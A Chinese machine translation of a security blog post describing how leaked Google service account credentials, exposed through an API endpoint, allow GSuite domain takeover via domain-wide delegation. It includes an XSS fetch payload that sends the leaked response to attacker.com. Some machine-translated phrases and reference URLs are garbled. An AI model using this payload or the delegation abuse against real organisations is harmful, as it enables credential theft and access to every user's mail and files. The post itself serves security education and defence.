



# 通过委派接管 GSuite 域

> 原文：<https://infosecwriteups.com/gsuite-domain-takeover-through-delegation-9d6664c91142?source=collection_archive---------0----------------------->


# TL；速度三角形定位法(dead reckoning)

对于现代 web 应用程序来说，OAuth 集成并不少见，每个集成都需要实现一组特定的安全策略。通过利用 web 应用程序的不完整业务逻辑，甚至可以检索通过 OAuth 流集成的 Google 服务帐户凭证，并通过在 GSuite 域中委派特定权限来危害所有 GSuite 用户。

**免责声明**

任何使用域范围授权并公开其服务帐户凭据的人都容易受到下述问题的攻击。这意味着博客帖子没有揭示所描述产品中的任何 0 天漏洞，这是一个共同责任问题。

# GSuite 域接管

对于我们的例子，让我们假设应用程序有一个特定的企业焦点，通过 OAuth 流集成了大多数第三方服务。然后，应用程序依靠这些集成来提供附加功能和独特的解决方案。此外，一个核心特性是与 GSuite 的集成。

# IDOR 还是破碎的商业逻辑？

在审查 web 应用程序时，特别注意应用程序的行为方式以及它有什么样的业务逻辑是非常重要的。例如，管理员用户可以通过以下 API 端点更新公司设置:

```
PUT /api/settings/0921899e-c347-11ec-9d64-0242ac120002/update HTTP/2
Host: vulnerable.com{"integration.name":"GSuite - takeover"}
```

如果这个 API 端点响应一个很长的公司字段列表，并且通过检查所有这些字段，您发现类似“google_service_account”的字段，那么它可能是一个 google 服务帐户凭证:



一个 API 可以被设计成在同一个 API 路径上支持几种方法。所有的方法都是为特定的原因服务的，并且执行它们自己的业务逻辑。

看看 API 端点示例的`GET`方法，应用程序不返回这些凭证，但是`PUT`方法返回。因此，回顾相同 API 路由(端点)的所有支持方法是有价值的，因为它们可以返回不同的数据集。

这种数据泄漏可能与另一种攻击联系在一起，从而可能将数据泄漏给攻击者。这可能是一个 IDOR，XSS，错误配置的 CORS 攻击。让我们来看一个 XSS 攻击的例子，其中有效负载会更新任何公司设置，然后将应用程序响应重定向到恶意的 web 服务器。

但是在进入开发步骤之前，我们需要获得更多关于 google 服务凭证的信息)

# 什么是谷歌服务账户？

在这一点上，Google 服务帐户的凭证已经被破坏了，但是可以用它们做什么呢？

[](https://cloud.google.com/iam/docs/understanding-service-accounts) [## 了解服务帐户| IAM 文档| Google 云

### 服务帐户是一种特殊类型的 Google 帐户，用于代表需要认证的非人类用户…

cloud.google.com](https://cloud.google.com/iam/docs/understanding-service-accounts) 

根据官方文件:

> *服务帐户是一种特殊类型的帐户，由应用程序或计算工作负载使用，如计算引擎虚拟机(VM)实例，而不是人。应用程序使用服务账户进行* [*授权 API 调用*](https://developers.google.com/identity/protocols/OAuth2ServiceAccount#authorizingrequests) *，授权为服务账户本身，或者通过* [*全域委托*](https://developers.google.com/identity/protocols/oauth2/service-account#delegatingauthority) 授权为 Google Workspace 或云身份用户

从应用程序的角度来看，全域委托是我们的示例应用程序业务逻辑的理想匹配。这将允许代表 Google Workspace 域中的用户访问用户数据。例如，应用程序将能够访问 Google 日历、Gmail、Sheets、Gdrive API 和其他 GSuite 服务。授权服务帐户代表域中的用户访问数据有时被称为向服务帐户“委派全域性授权”。

有一个详细的指南，如何实现域范围的委托:

[](https://developers.google.com/admin-sdk/reports/v1/guides/delegation) [## 执行 Google Workspace 域范围的授权委托| Google Workspace Admin SDK 报告…

### 在企业应用程序中，您可能希望以编程方式访问用户的数据，而无需对…进行任何手动授权

developers.google.com](https://developers.google.com/admin-sdk/reports/v1/guides/delegation) 

# 完整的攻击链

示例攻击链可能由两部分组成。第一种涉及与易受攻击的应用程序的直接通信。我们需要创建一个代表用户更新公司设置的 XSS 有效负载，然后读取响应并将服务帐户凭证转发到我们控制下的主机。



```
var url = "<https://vulnerable.com/api/settings/0921899e-c347-11ec-9d64-0242ac120002/update>";
fetch(url, {
  method: 'put',
  body: JSON.stringify({"integration.name":"GSuite - takeover"}),
  mode: 'cors',
  headers: new Headers({
    'Content-Type': 'application/json'
  })
})
.then(response => fetch("<http://attacker.com/leak?response=>"+response))
```

对于第二部分，有了 Google 服务帐户凭证，我们不再与易受攻击的 web 应用程序进行交互，我们需要定义我们希望访问的范围，获得我们希望授予其权限的电子邮件地址，并代表用户与 Google 服务进行交互。下图解释了危害 GSuite 帐户的步骤:



# 编写漏洞利用

通过读取`service-account-credentials.json`文件，我们读取了检索到的 Google 服务帐户凭证。然后，我们将一组特定的权限委托给我们希望代表其访问 GSuite 服务的用户，例如 Gmail、Gdrive、Calendar、Google Spreadsheet 等等。通过遵循下面代码库中的注释，您可以了解如何委派服务帐户的用户权限。

# 摘要

通过获得 Google 服务帐户凭证，攻击者可以在该组织的 GSuite 域内做任何事情:读取、代表用户发送电子邮件、读取、写入 Google Drive 中的文件、查看 Google 表单、幻灯片和文档，换句话说就是所有事情。这就是为什么特殊的安全机制和预防措施对于确保凭据的安全性至关重要。

此外，这些凭证可能被分配了更多的权限，而不仅仅是我们的示例应用程序所需的域委派权限。如果设置集成的组织不遵循最小特权原则，这些凭据可能有权使用 GCP 基础架构，这一安全问题将会带来新的攻击媒介。

开发人员应该始终检查每个 API 端点，以确定它返回给最终用户的是什么类型的数据。任何私人用户信息的泄露都会导致灾难性的后果。

# 参考

1.  [https://cloud.google.com/iam/docs/service-accounts](https://cloud.google.com/iam/docs/service-accounts)
2.  [https://cloud . Google . com/SDK/g cloud/reference/auth/activate-service-ACCOUNT #账号](https://cloud.google.com/sdk/gcloud/reference/auth/activate-service-account#ACCOUNT)
3.  【https://cloud.google.com/sdk/gcloud/reference/cheat-sheet 
4.  [https://cloud . Google . com/iam/docs/understanding-service-accounts](https://cloud.google.com/iam/docs/understanding-service-accounts)
5.  [https://cloud . Google . com/compute/docs/reference/rest/beta/regions/list](https://cloud.google.com/compute/docs/reference/rest/beta/regions/list)
6.  [https://stack overflow . com/questions/33901090/how-to-create-Gmail-delegation-with-service-account](https://stackoverflow.com/questions/33901090/how-to-create-gmail-delegation-with-service-account)
7.  [https://developers . Google . com/admin-SDK/directory/v1/guides/delegation # python](https://developers.google.com/admin-sdk/directory/v1/guides/delegation#python)
8.  [https://cloud . Google . com/iam/docs/understanding-service-accounts # managing _ service _ account _ keys](https://cloud.google.com/iam/docs/understanding-service-accounts#managing_service_account_keys)
9.  [https://stack overflow . com/questions/53320537/creating-Google-API-credentials-from-service-account-with-scope-and-delegated-a](https://stackoverflow.com/questions/53320537/creating-google-api-credentials-from-service-account-with-scope-and-delegated-a)
10.  [https://developers . Google . com/admin-SDK/reports/v1/guides/delegation](https://developers.google.com/admin-sdk/reports/v1/guides/delegation)